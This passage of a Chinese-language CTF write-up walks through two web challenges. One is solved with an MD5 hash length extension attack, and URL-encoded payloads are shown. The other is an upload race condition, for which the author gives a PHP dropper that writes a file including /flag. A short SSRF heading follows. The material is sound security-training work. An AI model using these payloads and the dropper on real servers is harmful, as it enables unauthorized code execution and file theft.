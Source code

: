 运用以上两个原理可以得到flag的md5值  
```
22c1e6d307040878c2396b6b1bb5cbd2
```
payload: `ZYCTF=user://pass:ZYCTF@host/path`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241025174242.png)  
#### 得到flag的长度
`intval()` 函数用于获取变量的整数值  
```php
if($num*100!=intval($num*100)){
    echo(strlen($flag));
}
```
根据题意: 一个数,乘100后的整数部分和它本身不相等  
即: 这个数要是3位及3位小数以上  
payload: `?length=9.999`  
得到flag长度为 `43`  
#### hashpump
hashpump即: 哈希长度扩展攻击  
- 已知明文：flag的格式为`字符{字符}`所以最后一位是`}`。但是经过尝试：此处填`ZYPC{``flag{`也可以  
- 已知hash：填写得到的值`22c1e6d307040878c2396b6b1bb5cbd2`  
- 扩展字符: 随便填  
- 密钥长度：flag长度减去填写的已知明文的长度，此时为`42`。若是已知明文写`ZYPC{`则写`38`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241030171142.png)   
传参时要用url编码，并删去填写的`已知明文`  
```
payload:
?length=%80%00%00%00%00%00%00%00%00%00%00%00%00X%01%00%00%00%00%00%00123
ZYCTF=69ca46fe1f3167ea9bd4b6a343b040d9
```
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241030171537.png)   
## 新疆大学网络安全宣传赛——1024CTF
### upload-fast
本题尝试了双写、截断、等价扩展名、图片马、.ini等等方式，都不能成功上传或上传后无法正常解析  
猜测本题为**条件竞争**  
php文件`1.php`内容为:  
```php
$f= fopen ("shone.php","w") ;
fputs ($f,'<?php include "/flag"?>');
```
使用bp进行多线程文件上传和访问  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241027203650.png)  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241027203801.png)  
一边上传`1.php`文件，一边访问`/upload/1.php`  
- 原理：本题服务端应该是先保存上传的文件，再检测文件名是否合法。  
- 在它未检测完成前，我们的木马会存在一段时间，这段时间里如果我们访问木马，他就会被执行。  
-  我们先上传一个条件竞争木马，内容是创建一个一句话木马，然后我们访问条件竞争木马，让它被执行，最后再连接一句话木马即可。  
访问`/upload/shone.php`发现成功包含flag  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241027202757.png)  
- 本题本来上传的是一句话木马,但是一句话木马无法正常解析，原因未知，猜测flag路径为`/flag`，所以使用文件包含  
- 为什么不能用一句话木马呢  ？？  
    - 问了学长，可能是蚁剑的问题
## SSRF
服务端请求伪造  
攻击者构造的由服务端发起请求的一个安全漏洞   

